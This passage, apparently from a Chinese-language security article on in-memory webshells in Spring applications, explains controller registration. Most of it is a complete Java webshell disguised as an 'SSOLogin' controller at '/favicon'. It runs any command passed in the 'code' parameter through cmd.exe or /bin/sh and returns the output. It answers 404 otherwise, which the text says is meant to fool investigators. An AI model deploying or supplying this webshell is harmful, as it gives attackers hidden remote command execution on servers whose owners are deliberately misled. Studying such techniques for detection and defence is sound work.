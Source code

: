 ### controller 中的 Webshell 逻辑

在使用 registerMapping 动态注册 controller 时，不需要强制使用 [@RequestMapping](https://github.com/RequestMapping) 注解定义 URL 地址和 HTTP 方法，其余两种手动注册 controller 的方法都必须要在 controller 中使用[@RequestMapping](https://github.com/RequestMapping) 注解 。

除此之外，将 Webshell 的代码逻辑写在主要的 Controller 方法中即可。

下面提供一个简单的用来执行命令回显的 Webshell 代码示例：

```
package me.landgrey;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

@Controller
public class SSOLogin `{`

    @RequestMapping(value = "/favicon")
    public void login(HttpServletRequest request, HttpServletResponse response)`{`
        try `{`
            String arg0 = request.getParameter("code");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) `{`
                String o = "";
                java.lang.ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win"))`{`
                    p = new java.lang.ProcessBuilder(new String[]`{`"cmd.exe", "/c", arg0`}`);
                `}`else`{`
                    p = new java.lang.ProcessBuilder(new String[]`{`"/bin/sh", "-c", arg0`}`);
                `}`
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            `}`else`{`
                response.sendError(404);
            `}`
        `}`catch (Exception e)`{`
        `}`
    `}`
`}`
```

代码比较简单，达到的效果是，当请求没有携带指定的参数(code)时，返回 404 错误，当没有经验的人员检查时，因为 Webshell 仅存在于内存中，直接访问又是 404 状态码，所以很可能会认为 Webshell 不存在或者没有异常了。
